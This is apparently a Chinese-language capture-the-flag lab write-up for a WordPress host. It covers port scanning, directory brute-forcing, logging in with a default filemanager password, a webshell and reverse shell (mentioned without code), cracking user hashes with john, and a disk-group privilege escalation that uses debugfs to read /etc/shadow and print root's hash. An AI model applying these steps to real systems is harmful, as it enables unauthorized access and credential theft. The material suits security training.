



## 偵查

```shell
[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.146.16:22
Open 192.168.146.16:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sC -sV -o scan_result.txt" on ip 192.168.146.16
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 08:42 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:42
Completed NSE at 08:42, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:42
Completed NSE at 08:42, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:42
Completed NSE at 08:42, 0.00s elapsed
Initiating Ping Scan at 08:42
Scanning 192.168.146.16 [4 ports]
Completed Ping Scan at 08:42, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 08:42
Completed Parallel DNS resolution of 1 host. at 08:42, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 08:42
Scanning 192.168.146.16 [2 ports]
Discovered open port 80/tcp on 192.168.146.16
Discovered open port 22/tcp on 192.168.146.16
Completed SYN Stealth Scan at 08:42, 0.09s elapsed (2 total ports)
Initiating Service scan at 08:42
Scanning 2 services on 192.168.146.16
Completed Service scan at 08:42, 6.22s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.146.16.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:42
NSE Timing: About 98.26% done; ETC: 08:42 (0:00:01 remaining)
NSE Timing: About 98.95% done; ETC: 08:43 (0:00:01 remaining)
NSE Timing: About 99.65% done; ETC: 08:43 (0:00:00 remaining)
Completed NSE at 08:44, 98.90s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 0.29s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 0.00s elapsed
Nmap scan report for 192.168.146.16
Host is up, received echo-reply ttl 61 (0.075s latency).
Scanned at 2025-09-04 08:42:21 EDT for 105s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCmPOfERLKCxx+ufQz7eRTNuEEkJ+GX/hKPNPpCWlTiTgegmjYoXQ7MA5ibTRoJ6vxpPEggzNszJKbBrSVAbRuT2sBg4o7ywiGUy7vsDBpObMrBMsdKuue3gpkaNF8DL2pB3v/XAxtavq1Mh4vz4yj99cc2pX1GhSjpQTWlsK8Rl9DmBKp7t0XxEWwq3juQ9JiN5yAttMrbTDjwMNxcipsYv0pMudDBE6g4gQyiZGwuUfBn+HirxnfRr7KkxmBaEpZgukXSJ7fXYgpQVgNP2cvd2sy/PYe0kL7lOfYwG/DSLWV917RPIdsPPQYr+rqrBL7XQA2Qll30Ms9iAX1m9S6pT/vkaw6JQCgDwFSwPXrknf627jCS7vQ8mh8UL07nPO7Hkko3fnHIcxyJggi/BoAAi3GseOl7vCZl28+waWlNdbR8gaiZhDR1rLvimcm3pg3nv9m+0qfVRIs9fxq97cOEFeXhaGHXvQL6LYGK14ZG+jVXtPavID6txymiBOUsj8M=
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAweAzke7+zPt3Untb06RlI4MEp+vsEJICUG+0GgPMp+vxOdxEhcsVY0VGyuC+plTRlqNi0zNv1Y0Jj0BYRMSUw=
|   256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPJP5z2Scxa02tfhI1SClflg5QtVdhMImHwY7GugVtfY
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.90 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)

```

## 列舉

只有簡單的 80 跟 22 而已，先從 80 看起  


只有 wp-admin 可以看而已，可以試著 dirsearch 
```
dirsearch -u [url] 
```
```shell
[09:44:58] Starting: 
[09:45:04] 403 -  279B  - /.ht_wsr.txt                                      
[09:45:04] 403 -  279B  - /.htaccess.bak1                                   
[09:45:04] 403 -  279B  - /.htaccess.sample                                 
[09:45:04] 403 -  279B  - /.htaccess.save
[09:45:04] 403 -  279B  - /.htaccess.orig
[09:45:04] 403 -  279B  - /.htaccess_extra                                  
[09:45:04] 403 -  279B  - /.htaccess_orig
[09:45:04] 403 -  279B  - /.htaccess_sc
[09:45:04] 403 -  279B  - /.htaccessBAK
[09:45:04] 403 -  279B  - /.htaccessOLD2
[09:45:04] 403 -  279B  - /.htaccessOLD
[09:45:04] 403 -  279B  - /.htm                                             
[09:45:04] 403 -  279B  - /.html                                            
[09:45:04] 403 -  279B  - /.htpasswd_test                                   
[09:45:04] 403 -  279B  - /.htpasswds                                       
[09:45:04] 403 -  279B  - /.httr-oauth                                      
[09:45:05] 403 -  279B  - /.php                                             
[09:45:26] 301 -  322B  - /filemanager  ->  http://192.168.146.16/filemanager/
[09:45:26] 200 -    2KB - /filemanager/                                     
[09:45:28] 302 -    0B  - /index.php/login/  ->  http://192.168.146.16/index.php/login/wp-admin/setup-config.php
[09:45:30] 200 -    7KB - /license.txt                                      
[09:45:39] 200 -    3KB - /readme.html                                      
```

找到 filemanager 這個目錄，可以進一步看看。  

credential: admin/admin

然後可以上傳 webshell 然後彈 rev shell 回來，就有 www-data 了


查看 `filemanager/config` 檔案，發現有 `.htusers.php`


有 hash 用 john crack
```shell
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```
然後成功取得密碼為 `doraemon`。
可以取得 dora/doraemon 的 credential。

## 提權

看看 dora 的 id  
```
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
```

有 disk group 權限，可以嘗試提權。
```shell
df -h 
```
```shell
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.2G  55% /
udev                               947M     0  947M   0% /dev
tmpfs                              992M     0  992M   0% /dev/shm
tmpfs                              199M  1.2M  198M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              992M     0  992M   0% /sys/fs/cgroup
/dev/loop0                          62M   62M     0 100% /snap/core20/1611
/dev/loop4                          68M   68M     0 100% /snap/lxd/22753
/dev/loop2                          50M   50M     0 100% /snap/snapd/18596
/dev/loop3                          92M   92M     0 100% /snap/lxd/24061
/dev/loop1                          64M   64M     0 100% /snap/core20/1852
/dev/sda2                          1.7G  209M  1.4G  13% /boot
tmpfs                              199M     0  199M   0% /run/user/1000
```

可以 利用 debugfs 去讀取 `/dev/mapper/ubuntu--vg-ubuntu--lv` 
```shell
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
```
```shell
cat /etc/shadow
root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::
```
拿去爆 hash，可以取得 credential ，root/explorer